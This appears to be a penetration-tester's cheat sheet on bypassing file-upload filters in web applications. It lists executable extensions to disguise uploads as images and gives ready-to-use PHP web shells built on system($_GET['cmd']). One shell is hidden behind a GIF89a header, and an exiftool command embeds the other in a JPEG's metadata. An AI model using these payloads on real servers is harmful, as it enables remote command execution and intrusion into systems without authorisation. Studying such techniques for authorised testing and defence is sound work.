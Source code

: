 # Bypass File Upload Filtering

## Rename it

We can rename our shell and upload it as shell.php.jpg. It passed the filter and the file is executed as php.

**php**
phtml, .php, .php3, .php4, .php5, and .inc

**asp**
asp, .aspx

**perl**
.pl, .pm, .cgi, .lib

**jsp**
.jsp, .jspx, .jsw, .jsv, and .jspf

**Coldfusion**
.cfm, .cfml, .cfc, .dbm

## GIF89a;
If they check the content.
Basically you just add the text "GIF89a;" before you shell-code. So it would look something like this:

```
GIF89a;
<?
system($_GET['cmd']);//or you can insert your complete shell code
?>
```

## In image
```
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' lo.jpg
```

Exiftool is a great tool to view and manipulate exif-data.
Then I had to rename the file

mv lo.jpg lo.php.jpg
